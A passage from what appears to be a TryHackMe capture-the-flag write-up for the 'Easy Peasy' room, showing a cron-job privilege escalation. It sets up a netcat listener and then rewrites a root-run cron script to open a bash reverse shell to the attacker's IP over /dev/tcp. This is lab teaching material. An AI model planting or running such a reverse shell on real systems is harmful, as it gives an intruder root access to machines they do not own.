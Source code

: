 ![cron](/assets/img/tryhackme/easy-peasy/cron.png)

We found something useful here. Let's go to the file and do a reverse-shell.

First, let's set up a netcat listener on our own machine.

```
$ nc -nlvp 4444
```

Let's change the file on the target machine.

```
$ nano /var/www/.mysecretcronjob.sh
#!/bin/bash
# i will run as root
bash -i >& /dev/tcp/10.8.86.168/4444 0>&1
```

![secretjob](/assets/img/tryhackme/easy-peasy/secretjob.png)
